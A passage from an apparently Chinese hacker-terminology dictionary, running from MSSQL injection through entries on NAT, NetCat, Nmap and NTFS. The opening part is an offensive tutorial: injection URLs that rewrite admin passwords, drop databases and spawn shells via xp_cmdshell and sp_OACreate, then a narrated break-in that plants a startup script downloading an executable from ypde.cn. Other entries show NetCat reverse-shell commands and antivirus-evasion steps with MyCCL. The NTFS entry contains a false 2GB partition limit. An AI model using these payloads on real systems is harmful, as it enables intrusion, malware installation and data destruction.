还有一种就是搜索型的注入，这个功能是用到了 SQL 语句中的模糊查询功能，一般这个主要用来搜索，现在很多网站都提供搜索的功能。如果要注入一个网站的搜索，那么就应该输入这样的代码：“要搜索的关键字%’ and 注入攻击代码”。

例如，我们要注入一个网站的搜索的地方，选的搜索关键字为 a，那么就可以这样进行判断是否存在注入漏洞：`a' and 1=1` 和 `a' and 1=2`。有一个前提是我们所要搜索的关键字 a 必须是可以搜索到的信息，你不要搞一个连网站都搜索不到的关键字。

在 ACCESS 注入中，如果后台密码是经过了 MD5 加密，而且密码无法破解时，我们就只有在 ACCESS 注入中结束了；而在 SQL 注入中还有很多方法可以利用，比如在注入的过程中暴出的管理员密码是经过 MD5 加密的，而我们又无法破解，这个时候可以直接利用 SQL 注入来修改数据库中的数据，直接把管理员的密码改掉。相关语句为：`;update 表名 set 列名='内容' where 条件`。

如果我们这里提交 `http://www.xxx.com/xxx.asp?id=xx;update admin set password='123' where username='zyh'`，其功能就是把 admin 表中的 username 为 zyh 的密码改为 123，这样就实现了对数据库信息的修改。当然我们也可以新添加一个管理员，相关语句为：`;insert into 表名 values (内容)--`。如果我们这里提交 `http://www.xxx.com/xxx.asp?id=xx;insert into admin values (zyh,123)--`，那么就能够往 admin 表中添加一个 username 为 zyh、password 为 123 的管理员了。

假如我们得到了一个网站的后台数据库的名称为 hack，那么执行 `;drop database hack` 后，hack 数据库就不存在了，如 `http://www.xxx.com/xxx.asp?id=xx;drop database hack`。

我们还可以通过在 URL 后面提交 `and (select @@version)>0` 来获得数据库版本；可以提交 `and db_name()>0` 来获得当前数据库名；提交 `and user>0` 获得当前数据库用户名。

除了 user 可以返回当前数据库名外，还有几个也可以达到类似的效果，如：`SESSION_USER`、`CURRENT_USER`、`SYSTEM_USER`。要判断当前数据库的权限，我们可以提交 `http://www.xxx.com/xxx.asp?id=xx and user>0`，如果返回值为“PUBLIC”，那么当前就是 PUBLIC 权限了。

要获得当前数据库名，我们可以提交 `http://www.xxx.com/xxx.asp?id=xx and db_name()>0`，如果返回的值为“admin”，则当前数据库名为 admin。

要判断是否支持多句查询，我们可以提交 `http://www.xxx.com/xxx.asp?id=xx;declare @a int--`。

要判断是否支持子查询，我们可以输入 `http://www.xxx.com/xxx.asp?id=xx and (select count(1) from [sysobjects])>=0`。

另外，MSSQL 还有很多扩展功能，下面来简单地介绍一下。利用数据库的扩展存储过程（`exec master..xp_cmdshell`）还可以做非常多的事情，利用它我们可以很快地获得一个 shell。

比如我们要查看服务器上 C 盘的目录，那么使用：`exec master..xp_cmdshell 'dir c:\'` 就可以完成这个功能了，只需要提交 `http://www.xxx.com/xxx.asp?id=xx;exec master..xp_cmdshell 'dir c:\'`，执行这条语句之后就看见 C 盘根目录下的文件和文件夹了。

我们还可以利用它来加一个管理员账号，提交 `http://www.xxx.com/xxx.asp?id=xx;exec master..xp_cmdshell 'net user 123 123/add'` 和 `http://www.xxx.com/xxx.asp?id=xx;exec master..xp_cmdshell 'net localgroup administrators 123/add'` 后，就往服务器加了一个 123 的管理员了。

其实我们只要在 `;exec master..xp_cmdshell` 后加上引号，并在引号内写入一些 DOS 命令，就都可以执行了。

不过在使用扩展存储过程之前，先要判断它是否存在，我们可以使用：

```
SELECT count(*) FROM master.dbo.sysobjects WHERE xtype='X' AND name='xp_cmdshell'
```

来判断。例如 `http://www.xxx.com/xxx.asp?id=xx and SELECT count(*) FROM master.dbo.sysobjects WHERE xtype='X' AND name='xp_cmdshell'`，如果返回正常则说明扩展存储过程存在，返回不正常的话就说明不存在。

如果扩展存储过程不存在，我们可以使用：`exec sp_addextendedproc xp_cmdshell,'xplog70.dll'` 来恢复已经不存在的扩展存储过程，例如 `http://www.xxx.com/xxx.asp?id=xx;exec sp_addextendedproc xp_cmdshell,'xplog70.dll'` 执行之后，网站 `http://www.xxx.com/` 后台数据库的扩展存储过程就被恢复了。而如果要删除扩展存储过程，我们只要执行 `exec sp_dropextendedproc 'xp_cmdshell'` 这个命令就可以完成了。

前面，我们利用了 xp_cmdshell 获得了一个 shell。其实，在 MSSQL 中还有一种方法可以获得 shell，下面就给大家介绍。在 MS SQL2000 中，提供了一些函数用于访问一个叫做 OLE 的对象，通过它可以访问 OLE 控件，间接地使我们获得一个 shell。而要得到一个 shell 就要使用两个关键函数，分别为“sp_OACreate”和“sp_OAMethod”。相关的 SQL 语句为：

```
DECLARE @S INT
EXEC SP_OACREATE 'wscript.shell', @s
exec master..SP_OAMETHOD @s,'run',null,'cmd.exe /c 需要执行的DOS命令(如 dir c:\)'
```

利用它同样可以得到一个 shell，执行我们的各种命令。通过 URL 提交为：

```
http://www.xxx.com/xxx.asp?id=xx;DECLARE @S INT
EXEC SP_OACREATE 'wscript.shell', @s
exec master..SP_OAMETHOD @s,'run',null,'cmd.exe /c dir c:\'
```

执行的结果就是返回遍历服务器 C 盘下的所有文件，同样达到一个 shell 的功能。

上面两种获得 shell 的方法虽然好，但是必须是 SA 权限才能够执行。也就是说如果我们注入的网站数据库不是 SA 权限的话，那么上面获得 shell 的方法都没有用了，如权限为 DB_OWNER 时就不能用上述方法。关于此种情况对 MSSQL 进行攻击的思路请见 DB_OWNER 词条，下面给出一个利用 DB_OWNER 进行入侵的实例。

打开 AD，进入 www.google.cn，在高级搜索里面输入 `site:目标网站 inurl:asp`，选择 100 项结果搜索，如图 M-26 所示。


找出了两个注入点，发现是 DB_OWNER 权限的，可以列磁盘目录，于是用 GetWebshell 工具备份一个带一句话木马的数据库。用客户端连接成功得到 shell，发现目标网站是内网 IP，网站目录都不可写，只能看。网站没有 FTP 这些第三方软件，没有可利用的提权方法。

随便翻翻，不久找到一个可以写的目录 zsgl，发现目录没有设置权限，可以上传。于是上传了一个海洋 asp 木马，如图 M-27 所示。在 conn.asp 里找到了 db 的连接密码，如图 M-28 所示。


接着就是进行 LOG 备份了，SQL 代码如下：

```
alter database vpc set RECOVERY FULL--
create table rmp_db(a image)--
```

## 【黑客术语图文辞典】

```sql
backup log vpc to disk = 'c:\bak.bak' with init--
insert into tmp_db(a) values
(0x130ADD0A6563686F2053657420503D6372656174654F626A65637428224D6963726F736F66742E584D4C4854545022293E6B2E7662730D0A6563686F20502E4F70656E2022474554222C22687474703A2F2F797064652E636E2F742E657865222C30203E3E6B2E7662730D0A6563686F20502E53656E6428293A473D6372656174654F626A656374282241444F44422E53747265616D22293E3E6B2E7662730D0A6563686F20472E4D6F64653D333A472E547970653D313A472E4F70656E28290D0A6563686F20472E577269746520502E526573706F6E7365426F64793A472E53617665546F46696C652022742E657865222C32203E3E6B2E7662730D0A6B2E7662730D0A740D0A)--
backup log vpc to disk = 'c:\docume~1\aluse~1\「开始」菜单\程序\启动\bak.bat'
drop table tmp_db
```


图 M-28

上面那串 16 进制的内容是备份内容，明码显示为：

```bat
echo Set P=createObject("Microsoft.XMLHTTP")>k.vbs
echo P.Open "GET","http://ypde.cn/t.exe",0 >>k.vbs
echo P.Send():set G=createObject("ADODB.Stream")>>k.vbs
echo G.Mode=3:G.Type=1:G.Open() >>k.vbs
echo G.Write P.ResponseBody:G.SaveToFile "t.exe",2 >>k.vbs
k.vbs
t
```

这行代码的意思是利用 bak.bat 写一个名为 k.vbs 的下载者并执行 k.vbs，它将下载 http://ypde.cn/t.exe。这样当计算机重新启动后会自动执行我们的 bak.bat，后就运行木马（这方法我在 Win2000 系统测试不成功）。于是我用海洋 ASP 木马的“数据库连接”连接数据库（因为内网端口没有映射，不可以在外网连）成功，如图 M-29 所示。按顺序输入 LOG 备份语句，接下来做的就是等待服务器重启并运行木马了。


图 M-29

## Mstsc 操作系统及其相关

Mstsc.exe 是 Windows 远程桌面连接程序，用来连接终端服务，又称 3389 连接器或终端服务连接器。

## MTA 黑客技术基础

MTA（Mail Transport Agent or Message Transfer Agent）表示消息传输代理，这部分程序负责存储和转发、发送 E-mail。它从 MUA 或其他的 MTA 接收到邮件后保存在本地，并分析收件人或转发到其他的 MTA。在处理过程中，它通常会编辑、添加邮件头内容，比如 Sendmail、Exchange 等。

## MyCCL 应用程序，免杀技术

MyCCL 是免杀技术中的常用工具，即复合特征码定位器。它能将程序分成许多块，再用杀毒软件对各块查杀，被查杀的文件块就是特征码所在位置，接着再进行切分，直至大致定位特征码的位置。

具体过程是：先载入指定的程序，然后分块设置为 10（刚开始应先少数量划分，以确定范围）。起始位置最好写代码段 code 或者 txt，然后程序会把代码段分成 10 块，从第 1 块开始恢复，并生成文件。

生成完毕后，用杀毒软件查杀生成文件的目录，清除所有带毒文件（如果杀毒软件是按顺序杀毒，可在杀掉第一个文件时就停止杀毒，此时特征码已找到）。然后点击“二次处理”，程序会自动记录在第几个文件开始查到毒了，那个就是第 1 个特征码。

程序会把有特征码的地方添 0，并记录在右面，然后把后面的文件分 10 块开始从头恢复。这样不断进行（反复使用“二次处理”和杀毒）就找出特征码，并记录在右面。

## MySpace 特定名称

MySpace 网站是著名的交友在线社区，成立于 2003 年 9 月，是目前全球最大的在线社区。它为全球用户提供了一个集交友、个人信息分享、即时通讯等多种功能于一体的互动平台。经过四年的高速发展，现已拥有超过 2 亿的注册用户，并正以每天新增 23 万注册用户的速度继续增长。

有数据显示，每个 MySpace 注册用户的平均浏览页面数高达 30 以上，用户粘性极强。2005 年 7 月，新闻集团（News Corporation）以 5.8 亿美元现金收购当时 MySpace 的母公司 Intermix Media，从而进入了网络新闻博客及网络社交领域，拥有了这个广受欢迎的 SNS 网站、“生活方式门户网站”。

2006 年初，MySpace 开始启动其全球化战略。迄今为止，已开通了 20 个国家或地区的分站点。2007 年 4 月 27 日，在新闻集团董事长默多克先生“全球化视野，本地化运作”的名言指引下，完全本土化的 MySpace 中国分站——MySpace.cn 高调上线，标志着 MySpace 正式进入中国互联网市场。

## MySQL 数据库

MySQL 是个小型关系型数据库管理系统，开发者为瑞典 MySQL AB 公司。目前 MySQL 被广泛地应用在 Internet 上的中小型网站中。由于其体积小、速度快、总体拥有成本低，尤其是开放源码这一特点，许多中小型网站为了降低网站总体拥有成本，选择了 MySQL 作为网站数据库。不过在 2008 年，SUN 公司已用 10 亿美元收购了 MySQL。

### N

## N.C.P.H 脚本杀手 应用程序

N.C.P.H 脚本杀手是款用来增强服务器安全性的软件，其界面如图 N-1 所示。它通过删除一些特定的服务器组件（如 `Wscript.Shell` 与 `Shell.Application`）与权限设置来让 `WEBSHELL` 失去作用。同时还停掉了一些危险服务，在一定程度上能有效地防范入侵行为，从而提高服务器的安全性。


图 N-1

## NAPT 黑客技术基础

NAPT（Network Address Port Translation，网络端口地址转换协议），即将多个内部地址映射为一个合法公网地址，但以不同的协议端口与不同的内部地址相对应。也就是：内部地址+内部端口与外部地址+外部端口之间的转换。

NAPT 普遍用于接入设备中，它可将中小型的网络隐藏在一个合法的 IP 地址后面，与此相似的协议还有 `NAT`。而它们的主要区别在于，`NAT` 只对内网 IP 和 NAT 的公网 IP 进行转换。因为 NAT 不能对端口进行转换，由于端口的限制，内网中同时与公网进行通信的主机数量就受到 NAT 的公网 IP 地址数量的限制。为了克服这种限制，NAT 被进一步扩展到在进行 IP 地址转换的同时进行 Port 的转换，这就是 NAPT 的由来。

## NASM 编程语言与开发

NASM 是一个为可移植性与模块化而设计的 80x86 汇编器，它是 Linux 下重要的汇编器。

NASM 支持相当多的目标文件格式，包括 Linux 和 “NetBSD/FreeBSD”、“a.out”、“ELF”、“COFF”，微软 16 位的 “OBJ” 和 “Win32”。它还可输出纯二进制文件，其语法设计相当简洁易懂，和 Intel 语法相似，但更简单。它支持 “Pentium”、“P6”、“MMX”、“3DNow!”、“SSE” 和 “SSE2” 指令集。

## NAT 黑客技术基础

NAT 即网络地址转换（IP Network Address Translator -- Network Address Translation）。它是通过将专用网络地址（如企业内网）转换为公网 IP（如互联网 Internet），从而对外隐藏内部 IP 地址，如图 N-2 所示。这样，通过在内部使用内网 IP 地址，并将它们转换为一小部分外部公网 IP 地址，可减少 IP 地址注册的费用以及节省目前越来越缺乏的地址空间（IPv4 地址现在已相当匮乏）。同时，这也隐藏了内部网络结构，降低了内部网络受到攻击的风险。


NAT 功能通常被集成到路由器、防火墙、单独的 NAT 设备中，当然，现在比较流行的操作系统或其他软件（主要是代理软件，如 WinRoute）大多也有 NAT 的功能。NAT 设备（或软件）维护一个状态表，用来把内部网络的私有 IP 地址映射到外部网络的合法 IP 地址上去。每个包在 NAT 设备（或软件）中都被翻译成正确的 IP 地址发往下一级。

与普通路由器不同的是，NAT 设备实际上对包头进行修改，将内部网络的源地址变为 NAT 设备自己的外部网络地址，而普通路由器仅在将数据包转发到目的地前读取源地址和目的地址。

**NAT 分为三种类型：静态 NAT（static NAT）、NAT 池（pooled NAT）和端口 NAT（PAT）。**其中，静态 NAT 将内部网络中的每个主机都永久映射成外部网络中的某个合法地址，而 NAT 池则是在外部网络中定义一系列合法地址，采用动态分配的方法映射到内部网络；端口 NAT 则是把内部地址映射到外部网络的一个 IP 地址的不同端口上。

使用网络地址转换 NAT，使得外部网络对内部网络不可视，从而降低了外部网络对内部网络攻击的风险性。因为攻击者想入侵内部网络，必须首先解决 NAT 网关才能进入。由于 NAT 有这么多优点，所以很受企业的青睐，使用 NAT 使得像企业这样的⼤型网络在安全方面很方便管理。


**NAT 配置可以分为静态地址转换、动态地址转换、复用动态地址转换。**

静态地址转换是将内部本地地址与内部合法地址进行一对一的转换，且需要指定和哪个合法地址进行转换。如果内部网络有 E-mail 服务器或 FTP 服务器等可以为外部用户提供服务，这些服务器的 IP 地址必须采用静态地址转换，以便外部用户可以使用这些服务。此时可以简单地认为这是一个端口映射。

动态地址转换也是将本地地址与内部合法地址一对一转换，但是动态地址转换是从内部合法地址池中动态地选择一个未使用的地址对内部本地地址进行转换。

复用动态地址转换首先是一种动态地址转换，但它可以允许多个内部本地地址共用一个内部合法地址。只申请到少量 IP 地址但却经常同时有多于合法地址个数的用户上外部网络的情况，这种转换极为有用。

下面以 Windows 2000 Server 为例，简要讲一下 NAT 的一般配置。

依次打开“开始→程序→管理工具→路由和远程访问”，出现一个对话框。左侧有一个“服务器状态”，点本地主机的机器名，然后点“操作→配置并启用路由和远程访问”，会弹出一个对话框，点下一步后会出现如图 N-3 所示的对话框。

选择“Internet 连接服务器”，点下一步。接着选择“设置有网络地址转换（NAT）路由协议的路由器”，点下一步，如图 N-4 所示。


图 N-3

图 N-4

再选择“使用选择的 Internet 连接→本地连接2”，这里的“本地连接2”是连接因特网的连接，而“本地连接”是连接内网的连接，如图 N-5 所示。然后“下一步→完成”，此时“路由和远程访问”会自动启动。

通过以上配置，我们就可利用 NAT 将内部地址转发到外部地址，即本机可通过 NAT 代理让内部机器共享上网。接下来，我们来配置外部端口到内部端口映射，这里将本机的 80 端口映射到内网一个 IP 为 192.168.0.102 的主机上去。

在“路由和远程访问”对话框的左侧，打开“本地→IP 路由选择→网络地址转换（NAT）”，这时在“路由和远程访问”对话框的右侧窗口应该有两个接口，即外部网络和内部网络，如图 N-6 所示。

在详细信息窗口中，右键单击要配置的接口，然后单击“属性”。在“特殊端口”选项卡上，在“协议”里单击“TCP”，设置“传入端口”与“传出端口”为 80。“专用地址”设为“192.168.0.102”，单击“确定”添加完毕，如图 N-7 所示。这样，简单的端口映射就完成了。


图 N-5

## Nautilus 操作系统及其相关

Nautilus 是 Linux 下常用的文件管理器，它提供了系统和个人文件的图形化显示。然而，Nautilus 不仅仅是文件的可视列表，它还允许你从一个综合界面来配置桌面、配置 Linux 系统、浏览影集、访问网络资源等。

## NBSI 黑客工具

NBSI 是网上极为流行的 SQL 注入工具，中文意思称为“牛逗死”，界面如图 N-8 所示。当然，也有人把它当作网站漏洞检测工具。对 ASP 注入来说，NBSI 有很好的效果，特别在 SQL Server 注入检测方面有极高的准确率。


## Nemesis 黑客工具

Nemesis 是个高效命令行的数据包注入工具，其功能之强大只有使用过的人才清楚，也可以利用 **ARP 欺骗** 向指定的数据包中插入数据，大部分 ARP 病毒也是用的这种技术。适用于 Unix 类和 Windows 系统。

## Neolite 应用程序

Neolite 是款系统辅助工具，可找出硬盘中的 EXE 与 DLL 文件，然后进行压缩以达到增大硬盘空间的目的。其压缩率平均可达到 70%，而且压缩过后的文件可以完全正常运行。

## Nessus 黑客工具

Nessus 是款著名的扫描器，它被认为是目前全世界最多人使用的系统弱点扫描与分析软件，如图 N-9 所示。只要使用者能确认主机的 IP 地址，它即能针对目标主机或网络进行安全评估。扫描结束后，Nessus 能针对目标主机或网络安全弱点产生评估报告，并提供给使用者相关信息。


图 N-9

Nessus 已连续两年获得 www.insecure.org 网站评选的 “Top 100 Security Tools” 第 1 名（详情可参阅 Nessus 官方网站），目前它所支持的作业平台包括：Linux、Mac、FreeBSD、Solaris、Windows 等。

1998 年，Nessus 创办人 Renaud Deraison 展开了一项名为 “Nessus” 的计划，其计划目的是希望能为因特网社群提供一个免费、威力强大、更新频繁并简易使用的扫描器。经过多年的发展，包括 CERT 与 SANS 等著名的网络安全相关机构皆认同此工具的功能与可用性。

2002 年，Renaud 与 Ron Gula、Jack Huffard 创办了一个名为 Tenable Network Security 的机构（位于美国马里兰州的哥伦比亚）。目前，该机构收回了 Nessus 的版权与程序源代码（原本为开放源代码），并注册了 nessus.org 为该机构的网站。

## NetBSD 操作系统及其相关

NetBSD 是个免费的、具有高度移植性的 Unix-like（类 Unix）操作系统，可在许多平台上执行，包括从 64bit 服务器到掌上型设备，许多应用程序也是易于移植的。由于简洁的设计和先进的特征，使得其在生产和研究方面都有卓越表现，而且它也有受使用者支持的完整原始码。

## Netfilter/Iptables 安全技术

Netfilter/Iptables 被认为是 Linux 中实现包过滤功能的第四代应用程序，它可实现防火墙、NAT 和数据包分割等功能。Netfilter 工作在内核内部，而 iptables 则是让用户定义规则集的表结构。

Netfilter/Iptables 从 Ipchains 和 Ipwadm（IP 防火墙管理）演化而来，很多时候统一称为 Iptables。它完全免费、功能强大、使用灵活，可对流入和流出的信息进行细化控制，且可在一台低配置机器上很好地运行。

Netfilter 是一种内核中用于扩展各种网络服务的结构化底层构架。它的设计思想是生成一个模块结构，使之能较容易地扩展，而且新的特性加入到内核中并不需要重新启动内核。这样，可通过简单构造一个内核模块来实现网络新特性的扩展，为底层的网络特性扩展带来了极大的便利，使更多从事网络底层研发的人员能集中精力实现新的网络特性。

事实上，我们可将 Netfilter 视为网络协议堆栈中能让其他模块操作网络数据包的一系列“钩子”。在数据包通过协议堆栈的某些特定点上，Netfilter 框架允许一个模块转发或丢弃数据包、通过某种方式改变数据包、在用户空间（非内核模式）对包进行排队，当然也可根本不去干涉它。

Iptables 只是个管理内核包过滤的工具，它为用户配置防火墙规则提供了方便。它能够加入、插入或删除内核包过滤表格（链）中的规则，但实际上真正来执行这些规则的是 Netfilter 及其相关模块。

因此，要使用 Netfilter/Iptables 系统，必须首先有 2.4 版本内核的相关支持，同时必须安装 Iptables 软件包。在 Red Hat 9.0 发行版中，此系统是默认配置。

另外，可以用 Iptables 为 Unix、Linux 和 BSD 个人工作站创建一个防火墙，也可以为一个子网创建防火墙以保护其他系统平台。Iptables 只读取数据包头，不会给信息流增加负担，也无需进行验证。要想获得更好的安全性，可将其和一个代理服务器相结合。

## NetCat 黑客工具

NetCat 的简称。

NetCat（一般简称 NC）是个使用简单且功能强大的网络工具，可进行许多 TCP 或 UDP 网络连接操作。同时，它又是一个功能丰富的网络调试和开发工具，因为它可建立你可能用到的几乎任何类型的连接，以及一些非常有意思的内建功能。

NetCat 的实际可运行名字叫 `nc`，在各个系统中都有其相应的版本，下面我们以 Windows 下的版本为例，简要介绍一下其使用方法。

- 1. 连接到远程主机

```bash
nc -nvv 192.168.x.x 80
```

这样就连接到了 192.168.x.x 的 80 端口。

- 2. 进行端口监听

```bash
nc -l -p 80
```

监听本机的 TCP 80 端口。

- 3. 扫描远程主机

```bash
nc -nvv -w2 -z 192.168.x.x 80-445
```

扫描 192.168.x.x 的 TCP 80 到 TCP 445 的所有端口。

- 4. 远程主机绑定 SHELL

```bash
nc -l -p 5354 -t -e c:\winnt\system32\cmd.exe
```

把 SHELL 绑定在 5354 端口上。

- 5. 远程主机绑定 SHELL 并反向连接

```bash
nc -t -e c:\winnt\system32\cmd.exe 192.168.x.x 5354
```

绑定 REMOTE 主机的 SHELL，并反向连接到 192.168.x.x 的 5354 端口。

高级用法：

- 6. 向指定连接插入数据

```bash
nc -nvv 192.168.x.x 80 < c:\exploit.txt
```

连接到 192.168.x.x 的 80 端口，并在其管道中发送“c:\exploit.txt”的内容。c:\exploit.txt 可以为 Shellcode。

- 7. 作蜜罐用

```bash
(1) nc -L -p 80
```

使用“-L”可不停地监听某个端口，直到按 Ctrl+C 为止，同时把结果输出到“c:\log.txt”中。

## NetBIOS 黑客技术基础

NetBIOS 指网络基本输入/输出系统协议（NetBIOS Services Protocols）。该协议由 IBM 公司开发，主要用于数十台计算机的小型局域网。NetBIOS 协议是一种在局域网上的程序，可使用应用程序编程接口（API），为程序提供请求低级服务的统一命令集，作用是为了给局域网提供网络以及其他特殊功能，几乎所有局域网都是在 NetBIOS 协议的基础上工作的。

NetBIOS 为文件共享与其他方面的信息传输提供了很好的基础，在 Windows 中也只有开放了 NetBIOS 才能使用共享服务，而 IPC 入侵也建立在这个基础上。

在 Windows 操作系统中，默认情况下，安装 TCP/IP 协议后会自动安装 NetBIOS。具体设置方法如下：首先打开“控制面板”，双击“网络连接”图标，打开本地连接属性。接着在属性窗口的“常规”选项卡中选择“Internet 协议（TCP/IP）”，单击“属性”按钮。然后在打开的窗口中单击“高级”按钮；在“高级 TCP/IP 设置”窗口中选择“WINS”选项卡；在“NetBIOS 设置”区域中就可进行相应的 NetBIOS 设置，如图 N-10 所示。


## Netscape 应用程序

Netscape 是一款浏览器，它能保护用户不受钓鱼式欺诈等网络欺诈活动的威胁。Netscape 用来打击网络犯罪分子的武器之一是不断更新网站黑名单，这些网站被怀疑发布间谍软件或运行欺诈行为。外部的安全厂商将向网景提供这些黑名单。

在用户访问黑名单上的网站时，浏览器将向用户发送警告信息。如果用户继续坚持访问该网站，浏览器就会关闭可能带来安全问题的各种功能，包括 ActiveX、脚本、Cookie 等。

## NetSpear2006 黑客工具

NetSpear2006 是一个远程管理软件，其强大的功能适合企业管理员管理其内部网络，从而提高工作效率和管理水平，如图 N-11 所示。


图 N-11

## NETSPY 黑客工具

NETSPY 是款典型的间谍软件，可自动记录通过你的 PC 机访问过的 Internet 站点。它在工作时很隐蔽，你可知道别人的上网使用记录，支持以下浏览器：Netscape Navigator、Microsoft Internet Explorer、AOL、Prodigy。

## Netstumbler 应用程序

Netstumbler 是最有名的寻找无线接入点的工具之一，使用它可方便地连接到无线网络。Netstumbler 支持 PCMCIA 无线网卡和全球 GPS 卫星定位系统。这个工具现在是免费的，仅支持 Windows 系统，源代码不公开，而且该软件的开发者还保留在适当的情况下对授权协议的修改权。

Netstumbler 支持服务集识别符（SSID）、有线等同保密（Wired Equivalent Privacy, WEP）、开放式认证、共享密码认证、MAC 地址认证等。SSID（Service Set Identifier）技术可将一个无线局域网分为几个需要不同身份验证的子网络，每个子网络都需要独立的身份验证，只有通过身份验证的用户才可进入相应的子网络，防止未被授权的用户进入本网络。

对于无线局域网中的不同工作组来说，通过 SSID 进行标识，成员可加入到相应的工作组中，而不会造成组织上的混乱。Unix 系统上的用户可使用 **Kismet** 来代替。

## NetXray 应用程序

NetXray 是款老牌的嗅探器，也是极好的网络监听工具，其主界面如图 N-12 所示。软件功能强大繁多，能监听多个网段，并且允许在多监控的同时捕获到你想要捕获的任何类型的报文。


图 N-12

## NIDS 安全技术

NIDS 是 Network Intrusion Detection System 的缩写，即网络入侵检测系统，主要用于检测通过网络进行的入侵行为。NIDS 的运行方式有两种，一种是在目标主机上运行以监测其本身的通信信息；另一种是在一台单独的机器上运行以监测所有网络设备的通信信息，比如 HUB、路由器。它就像是设在防火墙后的一个流动岗哨，能够适时发觉在网络中的攻击行为，并采取相应的响应措施。

NIDS 是以网络包作为分析数据源，它通常利用一个工作在混杂模式下的网卡来实时监视并分析通过网络的数据流（这点跟嗅探器很相似），其分析模块通常使用模式匹配、统计分析等技术来识别攻击行为。一旦检测到了攻击行为，NIDS 的响应模块就作出适当的响应，比如报警、切断相关用户的网络连接等。

与扫描器收集网络中的漏洞不同，NIDS 收集的是网络中的动态流量信息，它是被动的。因此，攻击特征库数量多少以及数据处理能力就决定了 NIDS 识别入侵行为的能力。大部分 NIDS 的处理能力还是 100 兆级的，部分 NIDS 已达到 1000 兆级。

## Nikto 黑客工具

Nikto 是 Linux 下的一款开源的（GPL）WEB 漏洞扫描器，基于 Whisker/libwhisker 的底层功能，如图 N-13 所示。可对 WEB 服务器进行全面的多种扫描，包含超过 3300 种有潜在危险的文件/CGIs；超过 625 种服务器版本；超过 230 种特定服务器问题。扫描项和插件可自动更新（如果需要），但其本身并不经常更新，最新和最危险的漏洞可能检测不到。


## Nmap 黑客工具

Nmap 是全球最著名的扫描器（注意，没有之一！），同时它也被著名安全工具 Nessus 所依赖。软件支持种类繁多的扫描技术，例如：UDP 扫描、TCP 连接扫描、TCP SYN 扫描（半开扫描）、FTP 反弹攻击、反向识别、ICMP 扫描、FIN 扫描、ACK 扫描、圣诞树扫描、null 扫描等。从扫描技术看，Nmap 是众多端口扫描器中的极品。此外，它还提供了一些高级特征，例如：系统特征识别、诱饵扫描、碎片扫描等。

Nmap 作为一款开放源代码的网络检测和安全审核工具，其设计目标是快速扫描大型网络，当然用它扫描单个主机也没有问题。

Nmap 以新颖的方式使用原始 IP 报文来发现网络上有哪些主机，哪些主机提供什么服务（应用程序名和版本），哪些服务运行在什么操作系统（包括版本信息），它们使用什么类型的报文过滤器/防火墙，以及一堆其他功能。

虽然 Nmap 通常用于安全审核，但许多系统管理员和网络管理员也用它来做一些日常工作，比如查看整个网络的信息、管理服务升级计划，以及监视主机和服务的运行。

## NOP 程序语言与开发

汇编语句中 NOP 是空操作指令，不执行任何操作，只消耗系统时间。

## nProtect 键盘加密技术 安全技术

nProtect 键盘加密保护系统是一种针对个人用户信息安全的产品，它用来保护用户的信息，不被键盘记录程序所获取。通过键盘加密技术，即使用户的 PC 中有木马程序，也无法正确读取输入的键盘信息，从而在根本上防止了互联网用户在进行网上交易、网络游戏以及使用电子银行时可能出现的账号被盗情况。

当用户连接到互联网时，键盘驱动程序会自动加载并执行，利用键盘驱动程序，用户的键盘信息通过 128 位的算法进行加密。

## NSPACK 加密解密

NSPACK 是首款国产 EXE、DLL、OCX 等 PE 文件压缩工具，界面美观漂亮，内核更加高效，兼容性更好，如图 N-14 所示。软件通过压缩代码、数据、相关资源等使文件压缩比能达到 60%-70%，其能处理 32 位和 64 位的可执行文件（exe、dll、ocx），很好地处理程序的代码、数据、资源节，可以压缩 C#.net 的可执行文件。压缩后的程序在网络上可减少程序的加载和下载时间，能在常用压缩软件（如 upx、aspack、pecompact 等）压缩过的程序上进行再次压缩。


图 N-14

## NS记录（黑客技术基础）

NS（Name Server）记录是域名服务器记录，用来指定该域名由哪个 DNS 服务器来进行解析。

例如用户希望由 202.103.58.21 这台服务器解析 www.mydomain.com，则需要设置 www.mydomain.com 域名的 NS 记录。可以用 **nslookup** 命令直接查询记录，如图 N-15 所示。


图 N-15

## NTDLL（操作系统及其相关）

ntdll.dll 是 Windows 系统的主要 DLL，是 NT 操作系统重要的模块。

## NTFS（操作系统及其相关）

NTFS 是 Windows NT 操作环境和高级服务器网络操作系统环境的文件系统。NTFS 的目标是提供可靠性，通过可恢复能力（事件跟踪）和热定位的容错特征实现增加功能性的一个平台。用于对 POSIX 需求的支持，消除 FAT 和 HPFS 文件系统中的限制。

NTFS 主要的特点是能提供长文件名、数据保护和恢复，并通过目录和文件许可实现安全性。NTFS 也支持大硬盘和在多个硬盘上存储文件（称为跨越分区）。例如，一个大公司的数据库可能大得必须跨越不同的硬盘，NTFS 提供内置安全性特征，它控制文件的隶属关系和访问。

从 DOS 或其他操作系统上不能直接访问 NTFS 分区上的文件，如果要在 DOS 下读写 NTFS 分区文件，可以借助第三方软件。目前在 Linux 下一般只能读取而不能写入 NTFS 分区文件，这是 Windows NT 安全性系统的一部分，但只有在使用 NTFS 时才这样。

在 Windows 下打开“我的电脑”，右键点击盘符，通过“属性”可查看其是否为 NTFS 系统，如图 N-16 所示。


### 其具体特点如下：

NTFS 可支持的分区（如果采用动态磁盘则称为卷）大小能达到 2GB。而 Win2000 中的 FAT32 支持分区的大小最大为 32GB。

NTFS 是个可恢复的文件系统。在 NTFS 分区上，用户很少需要运行磁盘修复程序，NTFS 通过使用标准事务处理日志和恢复技术来保证分区的一致性。发生系统失败事件时，NTFS 使用日志文件和检查点信息自动恢复文件系统的一致性。

NTFS 支持对分区、文件夹和文件的压缩。任何基于 Windows 的应用程序对 NTFS 分区上的压缩文件进行读写时，不需要事先由其他程序进行解压缩。当对文件进行读取时，文件将自动进行解压缩，文件关闭或保存时会自动对文件进行压缩。

在 NTFS 分区上，可以为共享资源、文件夹以及文件设置访问许可权限。许可的设置包括两方面的内容：一是允许哪些组或用户对文件夹、文件和共享资源进行访问；二是获得访问许可的组或用户可进行什么级别的访问。访问许可权限的设置不但适用于本地计算机的用户，同样也应用于通过网络的共享文件夹对文件进行访问的网络用户。与 FAT32 文件系统下对文件夹或文件进行访问相比，安全性要高得多。

在 Win2000 的 NTFS 文件系统下可以进行磁盘配额管理。磁盘配额就是管理员可以为用户所能使用的磁盘空间进行配额限制，每一用户只能使用最大配额范围内的磁盘空间。设置磁盘配额后，可以对每个用户的磁盘使用情况进行跟踪和控制，通过监测可以标识出超过配额报警阈值和配额限制的用户，从而采取相应的措施。磁盘配额管理功能的提供，使得管理员可以方便合理地为用户分配存储资源，避免由于磁盘空间使用的失控可能造成的系统崩溃，提高了系统的安全性。

